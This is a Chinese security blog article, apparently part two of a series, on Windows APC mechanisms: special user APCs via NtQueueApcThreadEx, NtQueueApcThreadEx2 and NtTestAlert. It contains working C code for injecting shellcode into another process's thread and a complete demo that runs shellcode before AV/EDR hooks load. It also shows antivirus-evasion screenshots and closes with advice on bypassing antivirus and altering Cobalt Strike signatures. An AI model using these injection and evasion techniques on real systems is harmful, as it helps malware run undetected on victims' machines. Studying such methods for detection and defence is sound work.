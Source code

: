 > 原文链接: https://www.anquanke.com//post/id/252487 


# 深入理解APC机制（二）


                                阅读量   
                                **19137**
                            
                        |
                        
                                                                                    



[![](https://p3.ssl.qhimg.com/t0178b919fb5c17d3b6.jpg)](https://p3.ssl.qhimg.com/t0178b919fb5c17d3b6.jpg)



## 0x01NtQueueApcThreadEx 之特殊用户 APC

​ 正如我上一篇所说，每个线程都有自己的 APC 队列。如果线程进入警报状态，它将开始以先进先出 (FIFO) 的形式执行 APC 作业。线程可以通过使用**SleepEx**、**SignalObjectAndWait**、**MsgWaitForMultipleObjectsEx**、**WaitForMultipleObjectsEx**或**WaitForSingleObjectEx**函数进入警报状态。

```
+---------------------+                                                 +---------------------+       
|                     |                                                 |                     |       
|                     |                                                 |                     |       
|                     |                                                 |                     |       
|   Malware Process   |                                                 |   svchost process   |       
|                     |               1 allocating space                |                     |       
|                     |-----------------------------------------------&gt; |---------------------|       
|                     |                                                 |                     |       
|                     |                                                 |      shellcode      |       
|                     |               2 writing shellcode               |                     |       
+---------------------+-----------------------------------------------&gt; +---------------------+       
           |                                                                     ^                    
           |                                                                     |                    
           |                                                                     |                    
           |                                                                     |                    
           |                                                                     |                    
           |                                                                     |                    
           |                                                                     v                    
           |                                                     +-----------------------------+      
           |                                                     |                             |      
           |                                                     |                             |      
           |                                                     |         thread 1112         |      
           |                                                     |                             |      
           |                                                     |-----------------------------|      
           |                                                     |              |              |      
           |             3 Queue an APC to thread 1112           |exec shellcode|other jobs... |      
           +----------------------------------------------------&gt;|              |              |      
                                                                 +-----------------------------+      
                                                                           APC Queue

```

而在 [Windows RS5](https://docs.microsoft.com/en-us/windows-insider/archive/new-in-rs5) 中，微软实现了特殊用户 APC。特殊用户 APC 可用于强制线程执行 APC 例程，即使它未处于警报状态。我们使用特殊用户 APC 进行 APC 注入所采取的所有步骤都类似于简单 APC 注入。唯一的区别是在这种情况下我们不会对所有线程进行 APC。可以使用**NtQueueApcThreadEx**函数将一个特殊的 APC 排队到属于我们目标进程的第一个线程。可以查看reactos文档中的实现：[https://doxygen.reactos.org/da/d3c/ntoskrnl_2ps_2state_8c_source.html#l00549](https://doxygen.reactos.org/da/d3c/ntoskrnl_2ps_2state_8c_source.html#l00549)

```
typedef enum _QUEUE_USER_APC_FLAGS `{`
    QueueUserApcFlagsNone,
    QueueUserApcFlagsSpecialUserApc,
    QueueUserApcFlagsMaxValue
`}` QUEUE_USER_APC_FLAGS;


typedef union _USER_APC_OPTION `{`
    ULONG_PTR UserApcFlags;
    HANDLE MemoryReserveHandle;
`}` USER_APC_OPTION, *PUSER_APC_OPTION;

USER_APC_OPTION UserApcOption;
UserApcOption.UserApcFlags = QueueUserApcFlagsSpecialUserApc;

for (Thread32First(snapshot, &amp;te); Thread32Next(snapshot, &amp;te);) `{`
    if (te.th32OwnerProcessID == target_process_id) `{`


        HANDLE target_thread_handle = OpenThread(THREAD_ALL_ACCESS, NULL, te.th32ThreadID);

        NtQueueApcThreadEx(target_thread_handle, QueueUserApcFlagsSpecialUserApc, (PKNORMAL_ROUTINE)target_process_buffer, NULL, NULL, NULL);

        CloseHandle(target_thread_handle);
        break;

    `}`
`}`
```

​

## 0x02 NtQueueApcThreadEx2

在 windows insider build 19603 的某个版本，添加了两个重要的功能：
1. NtQueueApcThreadEx2：这是一个新的系统调用，它允许传递 UserApcFlags 和 MemoryReserveHandle。
1. QueueUserAPC2：这是kernelbase.dll中的一个新包装函数，允许用户访问特殊用户APC。
微软允许客户端会使用QueueUserAPC2 ，它可用于在执行过程中向线程发送信号——例如模拟类似于 Linux 如何向线程发送信号[(pthread_cancel) 的](http://man7.org/linux/man-pages/man3/pthread_cancel.3.html)信号机制。

```
NTSTATUS
NtQueueApcThreadEx2(
    IN HANDLE ThreadHandle,
    IN HANDLE UserApcReserveHandle,
    IN QUEUE_USER_APC_FLAGS QueueUserApcFlags,
    IN PPS_APC_ROUTINE ApcRoutine,
    IN PVOID SystemArgument1 OPTIONAL,
    IN PVOID SystemArgument2 OPTIONAL,
    IN PVOID SystemArgument3 OPTIONAL
    );


DWORD
QueueUserApc2(
    PAPCFUNC pfnAPC,
    HANDLE hThread,
    ULONG_PTR dwData,
    QUEUE_USER_APC_FLAGS Flags
    );
```



## 0x03 NtTestAlert

​ 我们知道线程只有在进入alertable状态时才能运行 APC 作业。那是否有不用alertable状态运行 APC 作业的方法。还真有一个就是**NtTestAlert**函数，它检查当前线程的 APC 队列，如果有任何排队的作业，它会运行它们以清空队列。当一个线程启动时，**NtTestAlert**会被首先调用在执行下面流程。因此，如果在线程的开始状态将 APC 排队，就可以安全地运行。其中它的底层调用是KeTestAlertThread:

```
BOOLEAN
 NTAPI
 KeTestAlertThread(IN KPROCESSOR_MODE AlertMode)
 `{`
     PKTHREAD Thread = KeGetCurrentThread();
     BOOLEAN OldState;
     KLOCK_QUEUE_HANDLE ApcLock;
     ASSERT_THREAD(Thread);
     ASSERT_IRQL_LESS_OR_EQUAL(DISPATCH_LEVEL);

     /* Lock the Dispatcher Database and the APC Queue */
     KiAcquireApcLockRaiseToSynch(Thread, &amp;ApcLock);

     /* Save the old State */
     OldState = Thread-&gt;Alerted[AlertMode];

     /* Check the Thread is alerted */
     if (OldState)
     `{`
         /* Disable alert for this mode */
         Thread-&gt;Alerted[AlertMode] = FALSE;
     `}`
     else if ((AlertMode != KernelMode) &amp;&amp;
              (!IsListEmpty(&amp;Thread-&gt;ApcState.ApcListHead[UserMode])))
     `{`
         /* If the mode is User and the Queue isn't empty, set Pending */
         Thread-&gt;ApcState.UserApcPending = TRUE;
     `}`

     /* Release Locks and return the Old State */
     KiReleaseApcLock(&amp;ApcLock);
     return OldState;
 `}`
```

​ 我们首先创建一个处于挂起状态的进程（如 svchost），然后将 APC 排队到主线程，然后恢复线程。因此，在线程开始执行主代码之前，它会调用**NtTestAlert**函数来清空当前线程的 APC 队列并运行排队的作业。因为它会在 AV/EDR hook新进程前运行。demo如下：

```
#include &lt;Windows.h&gt;

#pragma comment(lib, "ntdll")
using myNtTestAlert = NTSTATUS(NTAPI*)();

int main()
`{`
    unsigned char buf[] = "xx";
    myNtTestAlert testAlert = (myNtTestAlert)(GetProcAddress(GetModuleHandleA("ntdll"), "NtTestAlert"));
    SIZE_T shellSize = sizeof(buf);
    LPVOID shellAddress = VirtualAlloc(NULL, shellSize, MEM_COMMIT, PAGE_EXECUTE_READWRITE);

    WriteProcessMemory(GetCurrentProcess(), shellAddress, buf, shellSize, NULL);

    PTHREAD_START_ROUTINE apcRoutine = (PTHREAD_START_ROUTINE)shellAddress;
    QueueUserAPC((PAPCFUNC)apcRoutine, GetCurrentThread(), NULL);
    testAlert();

    return 0;
`}`
```

这里我采用了文件分离的方式，免杀效果：

[![](https://p1.ssl.qhimg.com/t016ebd21583540d694.png)](https://p1.ssl.qhimg.com/t016ebd21583540d694.png)

[![](https://p5.ssl.qhimg.com/t012ee75583d611a313.png)](https://p5.ssl.qhimg.com/t012ee75583d611a313.png)



## 0x04 总结

​ 网上使用这些的方式也有很多代码了，在我实际的渗透测试过程中比较倾向使用NtQueueApcThreadEx与NtTestAlert，绕过各种杀软的效果都挺可以，如果你还是显示被杀，可以先测试正常的弹计算器的shellcode是否正常。有些可能是比如CS的特征行为被杀，就需要改一下CS。
